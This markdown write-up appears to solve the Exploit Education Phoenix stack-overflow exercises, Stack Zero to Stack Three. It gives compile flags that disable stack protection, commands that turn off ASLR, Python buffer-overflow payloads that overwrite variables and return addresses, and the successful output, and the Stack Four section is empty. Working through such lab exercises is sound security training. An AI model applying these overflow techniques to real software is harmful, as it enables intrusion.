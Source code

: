 # Exploit Education Phoenix


# Stack Zero
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-zero-32 stack-zero.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero-32
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero-32 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!

```
## x64
### Compile
```
gcc -fno-stack-protector -z execstack -o stack-zero stack-zero.c
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero 
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack One
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-one-x32 stack-one.c
```
### Solution
```
./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## x64
### Compile
```
gcc -fno-stack-protector -z execstack -o stack-one stack-one.c
```
### Solution
```
./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```


# Stack Two
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-two-x32 stack-two.c
```
### Solution
```
export ExploitEducation=`python -c "print('A'*64 + '\x0a\x09\x0a\x0d')"`
./stack-two-x32
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-two-x32 
Welcome to stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value

```
## x64
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-two stack-two.c
```
### Solution
```
export ExploitEducation=`python -c "print('A'*64 + '\x0a\x09\x0a\x0d')"`
./stack-two
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-two-x32 
Welcome to stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

# Stack Three
## x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-three-32 stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x56\x55\x55\xfd"[::-1]' | ./stack-three-32
```

## x64
### Compile and disable ASLR
```
gcc -fno-stack-protector -z execstack -o stack-three stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x55\x55\x55\x55\x47\xaa"[::-1]' | ./stack-three
```

# Stack Four
## x32
### Compile and disable ASLR
```
```
### Solution
```
```

## x64
### Compile and disable ASLR
```
```
### Solution
```

```
